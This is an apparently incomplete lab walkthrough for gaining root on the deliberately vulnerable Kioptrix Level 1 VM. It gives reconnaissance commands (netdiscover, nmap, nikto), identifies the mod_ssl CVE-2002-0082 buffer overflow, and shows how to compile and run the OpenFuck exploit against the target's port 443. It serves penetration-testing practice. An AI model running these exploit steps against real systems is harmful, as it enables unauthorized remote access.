 # Summary (INCOMPLETE)
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 1.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 1 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.24`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.24

Ports found open: 22, 80, 111, 139, 443, 1024

**Step 3:**
Run nikto on `192.168.1.24` to locate any points of vulnerabilities.
> nikto -h 192.168.1.24

It is found that the webserver is Apache and the current version(2.8.4) of `mod_ssl` is vulnerable to exploit.

`mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.`

Visit `https://github.com/heltonWernik/OpenLuck` and download the repository zip. It is a C  program designed to exploit the Apache webserver with mod_ssl version less than 2.8.7

**Step 4:**
Compile the file `OpenFuck.c`
> gcc -o OpenFuck OpenFuck.c -lcrypto

Next, run the exploit.
> ./OpenFuck

It will show the list of supported boxes for the target of the exploit. Since we are dealing with Apache version 1.3.20 on the target machine, we choose the box for that version only. Based on the usage text, we set number of channels to 40.
![target_boxes.png](target_boxes.png)

> ./OpenFuck 0x6a 192.168.1.24 443 -c 40




**References:**
https://github.com/heltonWernik/OpenLuck





